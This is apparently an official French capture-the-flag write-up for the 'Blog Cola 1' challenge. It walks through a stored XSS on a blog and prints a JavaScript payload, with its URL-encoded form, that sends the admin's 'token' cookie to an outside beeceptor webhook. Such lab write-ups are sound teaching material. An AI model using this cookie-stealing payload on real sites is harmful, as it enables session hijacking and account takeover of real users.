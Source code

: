 # Blog Cola 1 WU officiel

## Description du challenge et objectif

Ce challenge a pour objectif d’introduire les failles présentes sur les clients web. Pour ce faire, vous avez accès à un site web de Popa Cola : Blog Cola.

C’est par le biais de ce site que l’entreprise concurrente dénigre Freizh Cola. Il faut donc prendre le contrôle du site afin de mettre un terme à cette mauvaise publicité.

Pour cela, il sera nécessaire de devenir administrateur du site web, ce qui donnera accès au panneau d'administration (qui affiche le flag).

## Faille de sécurité

La faille présente dans ce site web est une [XSS Stockée](https://fr.wikipedia.org/wiki/Cross-site_scripting#XSS_stock%C3%A9_(ou_permanent)). Ce type de faille permet d’injecter du code JavaScript dans une page. Ce code est ensuite interprété par tous les clients qui la visitent. En fonction du code JavaScript injecté, il est possible de faire beaucoup de choses. Dans notre cas, il suffit de voler le cookie `token` de l’admin, qui sera accessible au moment où il visionnera la page. Grâce à ce cookie, il sera possible de s’authentifier et d’accéder à la page admin.

Il est important de noter que le vol du cookie n’est possible que parce qu’il n’est pas en `HttpOnly`.

## Exploitation

La première étape consiste à identifier le point d’injection de notre XSS. Ici, le site est assez petit, donc essayons de voir ce qu’il se passe quand on crée un nouvel article avec de la mise en forme, par exemple du gras et de l’italique.

![article gras et italique](./wu/image-3.png)

Il est possible de voir que la requête envoyée par notre navigateur comprend du code HTML (ici `p`, `em` et `strong`).

![code html](./wu/image-4.png)

En regardant le nouvel article créé, on voit bien que rien n’a été filtré.

![nouvel article](./wu/image-5.png)

Maintenant que nous avons vu comment injecter du HTML, essayons d’en tirer quelque chose, par exemple, exécuter le code JavaScript `alert(1)`.

Pour cela, le plus simple est d’envoyer une requête de création et de l’éditer pour en renvoyer une seconde qui contiendra ce que l’on veut.

![aa](./wu/image-8.png)

![req](./wu/image-9.png)

Clic droit > modifier et renvoyer

![modif](./wu/image-11.png)

(Il faut faire attention à bien modifier le titre aussi.)

En retournant sur la page d’accueil, on peut voir que notre JavaScript a bien été exécuté.

![alert](./wu/image-12.png)

Il est maintenant temps de récupérer le cookie. Pour ce faire, JavaScript permet d’accéder à tous les cookies non-HttpOnly via la variable `document.cookie`. Pour recevoir ce cookie, il est nécessaire de mettre en place une webhook. Par exemple, on peut utiliser [Beeceptor](https://beeceptor.com/).

J’utiliserai l’endpoint à l’URL `https://qsdfze.free.beeceptor.com`

![beeceptor](./wu/image-13.png)

Pour simplifier l’exploit, je vais utiliser une redirection du navigateur de la cible vers `https://beecptor?cookie=+document.cookie`. Cette technique est facile à mettre en œuvre mais très visible dans les cas d’attaques réelles.

Le code JavaScript à exécuter est donc :

```js
window.location = "https://qsdfze.free.beeceptor.com?cookie=" + document.cookie
```

Il ne reste plus qu’à utiliser la même technique que précédemment, mais avec ce nouveau payload à la place du `alert(1)`. Attention : comme notre payload contient des `?`, `&`, `%` ou `=`, il est nécessaire de l’encoder en URL. Version URL encodée disponible [ici](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=d2luZG93LmxvY2F0aW9uID0gImh0dHBzOi8vcXNkZnplLmZyZWUuYmVlY2VwdG9yLmNvbT9jb29raWU9IiArIGRvY3VtZW50LmNvb2tpZQ).

Payload final :

```html
title=bbbbb&tinyMCE=<script>window%2Elocation%20%3D%20%22https%3A%2F%2Fqsdfze%2Efree%2Ebeeceptor%2Ecom%3Fcookie%3D%22%20%2B%20document%2Ecookie</script>
```

**<!> Si vous avez déjà envoyé un `alert` auparavant, il est nécessaire de réinitialiser l’application. Le `alert` bloque le chargement de la page.**

![send payload](./wu/image-14.png)

En visitant soi-même la page principale, on peut voir qu’on est redirigé. Il ne reste plus qu’à attendre 30 secondes pour voir le token admin arriver.

![admin token](./wu/image-17.png)

Pour voir la page admin, il suffit d’ajouter le token à son navigateur et de s’y rendre.

![admin token add](./wu/image-18.png)

![admin page](./wu/image-19.png)
